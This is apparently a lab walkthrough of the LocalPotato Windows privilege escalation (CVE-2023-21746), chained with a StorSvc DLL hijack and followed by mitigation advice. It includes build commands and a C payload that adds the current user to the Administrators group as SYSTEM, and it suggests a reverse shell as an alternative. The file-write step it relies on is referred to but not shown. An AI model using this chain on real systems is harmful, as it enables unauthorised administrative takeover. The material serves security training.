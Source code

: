 A local privilege escalation (LPE) vulnerability in Windows was reported to Microsoft on September 9, 2022, by Andrea Pierini (@decoder_it) and Antonio Cocomazzi (@splinter_code). The vulnerability would allow an attacker with a low-privilege account on a host to read/write arbitrary files with SYSTEM privileges.

Microsoft released a fix for the vulnerability in the January 2023 patch Tuesday, and a working Proof-of-Concept (PoC) was later released on February 10, 2023. The vulnerability was assigned CVE-2023-21746.

While the vulnerability in itself wouldn't directly allow executing commands as SYSTEM, we can combine it with several vectors to achieve this result. Conveniently, on February 13, another privilege escalation PoC was published by BlackArrowSec that abuses the StorSvc service, allowing an attacker to execute code as SYSTEM as long as they can write a DLL file to any directory in the PATH.

In this room, we will look at both vulnerabilities and combine them to get arbitrary execution as the SYSTEM user.

Before going into how the vulnerability works, let's do a quick refresher on NTLM authentication.

NTLM Authentication

The usual case of NTLM authentication involves a user trying to authenticate to a remote server. Three packets are involved in the authentication process:

Type 1 Message: The client sends a packet to negotiate the terms of the authentication process. The packet optionally contains the name of the client machine and its domain. The server receives the packet and can check that authentication was started from a different machine.
Type 2 Message: The server responds to the client with a challenge. The "challenge" is a random number used to authenticate the client without having to pass their credentials through the network.
Type 3 Message: The client uses the challenge received on the Type 2 message and combines it with the user's password hash to generate a response to the challenge. The response is sent to the server as part of the Type 3 message. That way, the server can check if the client knows the correct user's password hash without transferring it through the network. 
NTLM Authentication

NTLM Local Authentication

NTLM local authentication is used when a user tries to log into a service running on the same machine. Since both the client and server applications reside on the same machine, there is no need for the challenge-response process. Authentication is instead performed differently by setting up a Security Context. While we won't dive into the details of what is contained in a Security Context, think of it as a set of security parameters associated with a connection, including the session key and the user whose privileges will be used for the connection.

The process still involves the same three messages as before, but the information used for authentication changes as follows:

Type 1 Message: The client sends this message to start the connection. It is used to negotiate authentication parameters just like before but also contains the name of the client machine and its domain. The server can check the client's name and domain, and the local authentication process begins if they match their own.

Type 2 Message: The server creates a Security Context and sends back its ID to the client in this message. The client can then use the Security Context ID to associate itself with the connection.

Type 3 Message: If the client successfully associates themselves with an existing Security Context ID, an empty Type 3 message is sent back to the server to signal that the local authentication process succeeded.
NTLM Local Authentication

![image](https://user-images.githubusercontent.com/47429862/223488098-123e4e41-fde3-4f41-a178-b7a1d054e258.png)

So far, we have used LocalPotato to write arbitrary files to the target machine. To get a privileged shell, we still need to figure out how to use the arbitrary write to run a command.

Recently, another privilege escalation vector was found, where an attacker could hijack a missing DLL to run arbitrary commands with SYSTEM privileges. The only problem with this vector was that an attacker would need to write a DLL into the system's PATH to trigger it. By default, Windows PATH will only include directories that only privileged accounts can write. While it might be possible to find machines where the installation of specific applications has altered the PATH variable and made the machine vulnerable, the attack vector only applies to particular scenarios. Combining this attack with LocalPotato allows us to overcome this restriction and have a fully working privilege escalation exploit.

StorSvc and DLL Hijacking

As discovered by BlackArrowSec, an attacker can send an RPC call to the SvcRebootToFlashingMode method provided by the StorSvc service, which in turn will end up triggering an attempt to load a missing DLL called SprintCSP.dll. 

Abusing StorSvc for LPE

If you are not familiar with RPC, think of it as an API that exposes functions so that they can be used remotely. In this case, the StorSvc service exposes the SvcRebootToFlashingMode method, which anyone with access to the machine can call.

Since StorSvc runs with SYSTEM privileges, creating SprintCSP.dll somewhere in the PATH will get it loaded whenever a call to SvcRebootToFlashingMode is made.

Compiling the Exploit

To make use of this exploit, you will first need to compile both of the provided files:

SprintCSP.dll: This is the missing DLL we are going to hijack. The default code provided with the exploit will run the whoami command and output the response to C:\Program Data\whoamiall.txt. We will need to change the command to run a reverse shell.
RpcClient.exe: This program will trigger the RPC call to SvcRebootToFlashingMode. Depending on the Windows version you are targeting, you may need to edit the exploit's code a bit, as different Windows versions use different interface identifiers to expose SvcRebootToFlashingMode.
The projects for both files can be found on C:\tools\LPE via StorSvc\.

Let's start by dealing with RpcClient.exe. As previously mentioned, we will need to change the exploit depending on the Windows version of the target machine. To do this, we will need to change the first lines of C:\tools\LPE via StorSvc\RpcClient\RpcClient\storsvc_c.c so that the correct operating system is chosen. We can use Notepad++ by right-clicking on the file and selecting Edit with Notepad++. Since our machine is running Windows Server 2019, we will edit the file to look as follows:

#if defined(_M_AMD64)

//#define WIN10
//#define WIN11
#define WIN2019
//#define WIN2022

...
This will set the exploit to use the correct RPC interface identifier for Windows 2019. Now that the code has been corrected, let's open a developer's command prompt using the shortcut on your desktop. We will build the project by running the following commands:

Command Prompt
C:\> cd C:\tools\LPE via StorSvc\RpcClient\

C:\tools\LPE via StorSvc\RpcClient> msbuild RpcClient.sln
... some output ommitted ...

Build succeeded.
    0 Warning(s)
    0 Error(s)

C:\tools\LPE via StorSvc\RpcClient> move x64\Debug\RpcClient.exe C:\Users\user\Desktop\ 
The compiled executable will be found on your desktop.

Now to compile SprintCSP.dll, we only need to modify the DoStuff() function on C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c so that it executes a command that grants us privileged access to the machine. For simplicity, we will make the DLL add our current user to the Administrators group. Here's the code with our replaced command:

void DoStuff() {

    // Replace all this code by your payload
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
        NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return;
}
We now compile the DLL and move the result back to our desktop:

Command Prompt
```
C:\> cd C:\tools\LPE via StorSvc\SprintCSP\

C:\tools\LPE via StorSvc\SprintCSP> msbuild SprintCSP.sln
... some output ommitted ...

Build succeeded.
    6 Warning(s)
    0 Error(s)

C:\tools\LPE via StorSvc\SprintCSP> move x64\Debug\SprintCSP.dll C:\Users\user\Desktop\ 
We are now ready to launch the full exploit chain!
```

## Mitigation

To prevent such attacks, consider the following points.

Patch updates:

Stay updated with security patches - The localpotato exploit targets a vulnerability in the Windows operating system. Ensure all systems are updated with the latest security patches to prevent attackers from exploiting this vulnerability. This vulnerability does not affect the patched OS.

Least Privilege Principle:

One way to prevent attackers from exploiting the localpotato exploit is to implement the principle of least privilege. This means limiting user access to only the resources they need to perform their job functions. By doing so, attackers are less likely to gain the elevated privileges required to execute the exploit.

Monitor for suspicious activity:

Use tools like Splunk to monitor suspicious activity on your network. Look for signs of a localpotato attack, such as unusual process activity or attempts to execute malicious code.
